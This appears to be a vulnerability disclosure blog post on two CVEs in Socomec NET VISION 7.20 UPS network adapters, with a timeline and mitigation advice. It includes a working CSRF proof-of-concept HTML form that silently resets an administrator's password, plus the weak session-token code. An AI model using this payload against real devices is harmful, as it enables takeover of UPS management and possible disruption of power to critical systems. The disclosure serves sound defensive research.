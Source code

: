 ```yaml
---
layout: post
title: "CVE-2024-4600 and CVE-2024-4601. Security Vulnerabilities Found in Socomec NET VISION UPS Network Adapter"
date: 2025-02-19
categories: [security, research]
tags: [vulnerabilities, network-security, socomec, ups-security, netvision]
---
```


Net Vision is a communication interface designed for enterprise networks that enables a direct and secure connection between the UPS and the Ethernet network. This connection provides a wide range of network services, including UPS monitoring, event notifications, automatic shutdown of UPS-powered servers, and many other services. Net Vision also functions as an IoT gateway, granting access to a variety of digital services. It is compatible with all UPS models equipped with a communication slot.

![](img/socomec.png)

Power management in critical infrastructure requires reliable monitoring and control capabilities. Socomec, a company specializing in low-voltage electrical equipment, offers NET VISION - a professional network adapter designed for remote UPS monitoring and control. This adapter enables direct UPS connection to IPv4/IPv6 networks, allowing remote management through web browsers, TELNET interfaces, or SNMP-based Network Management Systems (NMS).

During a security assessment at IOActive, I evaluated version 7.20 of the NET VISION adapter and discovered several security issues that could potentially impact organizations using these devices for UPS management. These findings highlight the ongoing challenges in securing industrial monitoring equipment.

## CSRF Vulnerability in Password Change Functionality (CVE-2024-4600)

### Description
The first vulnerability, rated as MEDIUM severity, involves a Cross-Site Request Forgery (CSRF) weakness in the password change mechanism. The web interface lacks proper CSRF protections, allowing an attacker to trick authenticated administrators into unknowingly changing their passwords.

What makes this vulnerability particularly concerning is that the password change functionality doesn't require the current password for verification, making the attack easier to execute.


### Proof of Concept
The vulnerability can be exploited using this simple HTML form:


```html
<html>
<body>
<script>history.pushState('', '', '/')</script>
<form action="https://[DEVICE-IP]/cgi/set_param.cgi"
method="POST" enctype="text/plain">
<input type="hidden"
name="xml&amp;user&#46;su&#46;passCheck&#91;0&#93;"
value="IOActive1234&amp;user&#46;su&#46;passCheck&#91;1&#93;&#61;
IOActive1234" />
<input type="submit" value="Submit request" />
</form>
</body>
</html>
```

When an authenticated administrator visits a page containing this code, their password would be changed to "IOActive1234" without their knowledge or consent.


### Impact
An attacker could:
- Change administrator passwords without knowing the current password
- Lock legitimate administrators out of their systems
- Gain unauthorized access to UPS management functions
- Potentially disrupt power management operations


## Weak Session Management (CVE-2024-4601)

### Description
The second vulnerability, rated as LOW severity, relates to weak session management implementation. The application uses a five-digit integer for session handling, which is cryptographically insufficient for secure session management.

The session token is generated using this JavaScript code in `/super_user.js`:

```javascript
function runScript(e) {
    if (e.keyCode == 13) {
        var hashkey2 = Base64.encode($("#login-box #password").val());
        var tmpToken = getRandomInt(1,1000000);
        Set_Cookie("user_name",$("#login-box #username").val());
        Set_Cookie("tmpToken", tmpToken);
        document.getElementById("token").value = tmpToken;
```

### Impact
This implementation is vulnerable because:
- The session token space is too small (maximum of 1,000,000 possible values)
- Tokens are predictable due to the simple random number generation
- An attacker could potentially brute force valid session tokens
- The implementation lacks many security best practices for session management


## Timeline and Resolution
- September 29, 2022: Vulnerabilities discovered
- June 28, 2023: Vulnerabilities reported to Socomec
- November 21, 2023: Socomec confirmed fixes in new NET VISION card (version 8)
- January 9, 2024: Vulnerabilities reported to INCIBE (Spanish CERT)
- March 5, 2024: Advisory published


## Recommendations
For organizations using NET VISION adapters:

1. Upgrade to NET VISION version 8 or later as soon as possible
2. Implement network segmentation to isolate UPS management interfaces
3. Use VPNs or similar secure access methods for remote management
4. Regularly monitor for unauthorized access attempts
5. Implement proper access controls at the network level

For manufacturers implementing web interfaces:

1. Implement proper CSRF protection using tokens
2. Require current password verification for password changes
3. Use cryptographically secure session management
4. Follow OWASP session management best practices
5. Implement proper security controls from the design phase


## Conclusion
These vulnerabilities in the NET VISION adapter demonstrate common web security issues that continue to appear in industrial equipment. While the individual vulnerabilities might not seem critical in isolation, their combination could allow attackers to compromise UPS management systems, potentially affecting critical infrastructure availability.

Find all the details of this advisory on [IOActive's Blog](https://info.ioactive.com/acton/attachment/34793/f-c12d52b0-c78e-47d5-86aa-7fc84eadb95f/1/-/-/-/-/IOActive%20Security%20Advisory%20-%20Socomec%20NET%20VISION%20Multiple%20Vulnerabilities.pdf)
